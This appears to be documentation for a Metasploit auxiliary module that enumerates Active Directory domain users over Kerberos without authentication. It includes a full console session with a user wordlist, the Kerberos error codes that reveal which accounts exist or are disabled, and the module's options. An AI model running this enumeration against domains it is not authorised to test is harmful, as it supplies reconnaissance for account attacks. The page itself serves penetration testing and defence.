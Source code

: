 The kerberos_enumusers module is used to enumerate valid Domain Users
via Kerberos from a wholly unauthenticated perspective. It utilises the
different responses returned by the service to identify users that exist
within the target domain. It is also able to identify whether user
accounts are enabled or disabled/locked out.

## Target

To use kerberos_enumusers, make sure you are able to connect to the
Kerberos service on a Domain Controller.

## Scenario

The following demonstrates basic usage, using a custom wordlist,
targeting a single Domain Controller to identify valid domain user
accounts.

```
msf > use auxiliary/gather/kerberos_enumusers
msf auxiliary(kerberos_enumusers) > set DOMAIN MYDOMAIN
DOMAIN => MYDOMAIN
msf auxiliary(kerberos_enumusers) > set RHOST 192.168.5.1
RHOST => 192.168.5.1
msf auxiliary(kerberos_enumusers) > set USER_FILE /job/users.txt
USER_FILE => /job/users.txt
msf auxiliary(kerberos_enumusers) > run

[*] Validating options...
[*] Using domain: MYDOMAIN...
[*] 192.168.5.1:88 - Testing User: "bob"...
[*] 192.168.5.1:88 - KDC_ERR_PREAUTH_REQUIRED - Additional
pre-authentication required
[+] 192.168.5.1:88 - User: "bob" is present
[*] 192.168.5.1:88 - Testing User: "alice"...
[*] 192.168.5.1:88 - KDC_ERR_PREAUTH_REQUIRED - Additional
pre-authentication required
[+] 192.168.5.1:88 - User: "alice" is present
[*] 192.168.5.1:88 - Testing User: "matt"...
[*] 192.168.5.1:88 - KDC_ERR_PREAUTH_REQUIRED - Additional
pre-authentication required
[+] 192.168.5.1:88 - User: "matt" is present
[*] 192.168.5.1:88 - Testing User: "guest"...
[*] 192.168.5.1:88 - KDC_ERR_CLIENT_REVOKED - Clients credentials have
been revoked
[-] 192.168.5.1:88 - User: "guest" account disabled or locked out
[*] 192.168.5.1:88 - Testing User: "admint"...
[*] 192.168.5.1:88 - KDC_ERR_C_PRINCIPAL_UNKNOWN - Client not found in
Kerberos database
[*] 192.168.5.1:88 - User: "admint" does not exist
[*] 192.168.5.1:88 - Testing User: "admin"...
[*] 192.168.5.1:88 - KDC_ERR_C_PRINCIPAL_UNKNOWN - Client not found in
Kerberos database
[*] 192.168.5.1:88 - User: "admin" does not exist
[*] 192.168.5.1:88 - Testing User: "administrator"...
[*] 192.168.5.1:88 - KDC_ERR_C_PRINCIPAL_UNKNOWN - Client not found in
Kerberos database
[*] 192.168.5.1:88 - User: "administrator" does not exist
[*] Auxiliary module execution completed
msf auxiliary(kerberos_enumusers) >
```

## Options

The kerberos_enumusers module only requires the RHOST, DOMAIN and
USER_FILE options to run.

**The DOMAIN option**

This option is used to specify the target domain. If the domain name is
incorrect an error is returned and domain user account enumeration will fail.

An example of setting DOMAIN:

```
set DOMAIN [domain name]
```

**The USER_FILE option**

This option is used to specify the file containing a list of user names
to query the Domain Controller to identify if they exist in the target domain
or not. One per line.

An example of setting USER_FILE:

```
set USER_FILE [path to file]
```

**The Timeout option**

This option is used to specify the TCP timeout i.e. the time to wait
before a connection to the Domain Controller is established and data read.

An example of setting Timeout:

```
set Timeout [value in seconds]
```
